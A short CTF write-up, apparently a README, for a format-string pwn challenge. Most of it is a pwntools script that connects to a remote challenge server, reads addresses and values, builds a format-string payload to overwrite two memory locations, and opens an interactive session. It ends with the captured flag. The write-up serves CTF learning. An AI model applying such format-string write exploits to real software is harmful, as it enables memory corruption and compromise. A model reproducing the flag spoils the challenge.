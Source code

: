 # **Auto Format String - PWN CTF Challenge**

### ***Exploitation***
---


```js
from pwn import *

#p = process('./autofmt')
p = remote('45.122.249.68', 10015)

context.clear(arch = 'amd64')

p.recvline()

a_val = int(p.recvline()[4:-1])
b_val = int(p.recvline()[4:-1])
a_add = int(p.recvline()[11:-1],16)
b_add = a_add - 8

writes = {a_add: a_val, b_add: b_val}

payload = fmtstr.fmtstr_payload(10, writes, write_size='short')

p.sendline(payload)
p.interactive()
```

![flag](images/flag.png)

> **FLAG: Wanna.One{do_cac_ban_tren_the_gian_nay_khoang_cach_nao_la_xa_nhat}**






